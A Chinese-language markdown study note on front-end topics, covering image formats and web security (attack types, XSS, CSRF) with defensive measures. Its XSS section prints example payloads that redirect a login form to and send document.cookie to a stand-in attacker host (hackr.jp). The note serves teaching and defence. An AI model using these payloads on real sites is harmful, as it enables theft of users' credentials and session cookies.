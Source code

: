 <!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->
**Table of Contents**  *generated with [DocToc](https://github.com/thlorenz/doctoc)*

- [架构](#%E6%9E%B6%E6%9E%84)
  - [性能优化](#%E6%80%A7%E8%83%BD%E4%BC%98%E5%8C%96)
    - [1. web的性能优化思路](#1-web%E7%9A%84%E6%80%A7%E8%83%BD%E4%BC%98%E5%8C%96%E6%80%9D%E8%B7%AF)
  - [web安全](#web%E5%AE%89%E5%85%A8)
    - [1. web攻击手段和原理](#1-web%E6%94%BB%E5%87%BB%E6%89%8B%E6%AE%B5%E5%92%8C%E5%8E%9F%E7%90%86)
    - [2. XSS Cross-Site-Script](#2-xss-cross-site-script)
    - [3. CSRF Cross-site-request-forgery](#3-csrf-cross-site-request-forgery)
  - [设计模式](#%E8%AE%BE%E8%AE%A1%E6%A8%A1%E5%BC%8F)
  - [项目](#%E9%A1%B9%E7%9B%AE)

<!-- END doctoc generated TOC please keep comment here to allow auto update -->



## 架构

### 性能优化

#### 1. web的性能优化思路

#### 2.图片类型选择

图片的类型主要有位图和矢量图

- 位图: 以像素为单位的, 像素点的平面排布图.
- 矢量图: 记录元素的形状和绘制算法, 以矢量的形式绘制线面. 因此放大不会失真.

图片的压缩类型则包括

- 无压缩: BMP
- 有损压缩: jpg/jepg
- 无损压缩: png, gif

| 类型     | 说明                                   | 优点                       | 缺点                      |
| -------- | -------------------------------------- | -------------------------- | ------------------------- |
| GIF      | 8bit压缩256色彩; 适用色彩较少的图片.   | 支持动画/透明/体积较小     | 色彩少                    |
| JPEG/JPG | 在照片的使用比较频繁的有损压缩图片格式 | 体积小/24位色彩/渐进式加载 | 不透明/有损               |
| PNG      | 支持多种位深的格式, 适合网页各种图片   | 无损/透明, 半透明/色彩多   | 不支持动画/压缩量相对较小 |
| WEBP     | 谷歌出品, 兼具jpg和png的特点           | 体积小/透明                | 支持差                    |
| SVG      | 使用XML定义语言                        | 不失真/体积很小            | 渲染成本                  |

[前端该如何选择图片的格式](https://jayzangwill.github.io/blog/2020/04/07/img-knowledge/)

### web安全

#### 1. web攻击手段和原理

web攻击的目标主要是客户端, **服务器**以及web应用. 按照触发形式有主动攻击和被动攻击两种. 

> 主动攻击（active attack）是指攻击者通过直接访问 Web 应用，把 攻击代码传入的攻击模式

> 被动攻击（passive attack）是指利用圈套策略执行攻击代码的攻击模式

较常见的 `XSS` 和 `CRSF` 都是被动攻击. `SQL `注入和 `OS` 命令注入都是主动攻击. 

原理: web的攻击原理**篡改请求**, 在请求报文中加载攻击代码. 比如URL的查询字段, 表单, HTTP首部, Cookie等方式传入攻击代码, 如果有安全漏洞, 代码就会被执行, 内部信息被窃取或者拿到管理权限.

#### 2. XSS Cross-Site-Script

跨站脚本攻击通过运行非法的HTML或JS脚本进行攻击. 主要的目的是:

> - 利用表单诱导用填写账号密码, 并偷偷发送到攻击者的服务器中. (QQ被盗)
> - 利用脚本窃取用户的Cookie值, 在被害者不知情的情况下发送请求
> - 替换网页内容.

攻击入口: 1. 没有转义处理的表单; 2. 动态创建的HTML部分.

攻击模式: 利用事先布置好的陷阱(邮件/奇怪的链接/短信), 诱导用户点击, 属于被动攻击.

攻击类型: XSS 一般分为**存储型、反射型和 DOM 型**。

存储型指的是恶意代码提交到了网站的数据库中，当用户请求数据的时候，服务器将其拼接为 HTML 后返回给了用户，从而导致了恶意代码的执行。

反射型指的是攻击者构建了特殊的 URL，当服务器接收到请求后，从 URL 中获取数据，拼接到 HTML 后返回，从而导致了恶意代码的执行。

案例: 利用URL载入HTML标签

```js
http://example.jp/login?ID="><script>var+f=document⇒
.getElementById("login");+f.action="http://hackr.jp/pwget";+f.method=⇒
"get";</script><span+s="

<div class="input_id">
 ID <input type="text" name="ID" value=""><script>var f=document⇒
.getElementById("login"); f.action="http://hackr.jp/pwget"; f.method=⇒
"get";</script><span s="" />
</div>

//如上, 利用ID将value值替换并载入了script标签, 将提交url修改为攻击者的服务器, 从而获取账号密码.
```

同样也可以设置script到目标脚本窃取Cookie信息.

```js
<script svrc=http://hackr.jp/xss.js></script>
//内容如下
var content = escape(document.cookie);
document.write("<img src=http://hackr.jp/?");
document.write(content);
document.write(">");
```

防御手段: 

- 输入输出内容转移, 对于引号，尖括号，斜杠进行转义.
- 添加Cookie: HTTPOnly字段, 禁止js读取Cookie
- 添加CSP安全策略
- 验证码

[反射型XSS](https://www.jianshu.com/p/a15c411e4c92)

[存储型XSS漏洞](https://galiyy.github.io/2019/10/01/%E5%AD%98%E5%82%A8%E5%9E%8BXSS%E6%BC%8F%E6%B4%9E/)

[CSP](https://www.bookstack.cn/read/CS-Interview-Knowledge-Map/spilt.1.Safety-safety-cn.md)

#### 3. CSRF Cross-site-request-forgery

**跨站请求伪造** 也被称为 **one-click attack** 或者 **session riding**，通常缩写为 **CSRF** 或者 **XSRF**， 是一种挟制用户在当前已登录的Web应用程序上执行非本意的操作的攻击方法

攻击入口: 一般是第三方网站(如一些钓鱼网站), 钓鱼帖子

攻击模式: 攻击者诱导受害者进入第三方网站，在第三方网站中，向被攻击网站发送跨站请求. 

主要攻击目的:

> - 利用已通过认证的用户权限更新设定信息等 
>
> - 利用已通过认证的用户权限购买商品 
>
> - 利用已通过认证的用户权限在留言板上发表言论

一个典型的CSRF攻击有着如下的流程：

- 受害者登录a.com，并保留了登录凭证（Cookie）。
- 攻击者引诱受害者访问了b.com。
- b.com 向 a.com 发送了一个请求：a.com/act=xx。浏览器会默认携带a.com的Cookie。
- a.com接收到请求后，对请求进行验证，并确认是受害者的凭证，误以为是受害者自己发送的请求。
- a.com以受害者的名义执行了act=xx。
- 攻击完成，攻击者在受害者不知情的情况下，冒充受害者，让a.com执行了自己定义的操作。

防御手段:

- 阻止不明外域的访问

  - 同源检测

    可以通过验证 Referer 来判断该请求是否为第三方网站发起的。同源验证是一个相对简单的防范方法，能够防范绝大多数的CSRF攻击。但这并不是万无一失的.

  - Samesite Cookie

    可以对 Cookie 设置 `SameSite` 属性。该属性设置 Cookie 不随着跨域请求发送，该属性可以很大程度减少 CSRF 的攻击，但是该属性目前并不是所有浏览器都兼容

- 提交时要求附加本域才能获取的信息

  - CSRF Token

    服务器下发一个随机 Token（算法不能复杂），每次发起请求时将 Token 携带上，服务器验证 Token 是否有效

  - 双重Cookie验证

[如何防止CSRF攻击？](https://tech.meituan.com/2018/10/11/fe-security-csrf.html)


### 设计模式

### 项目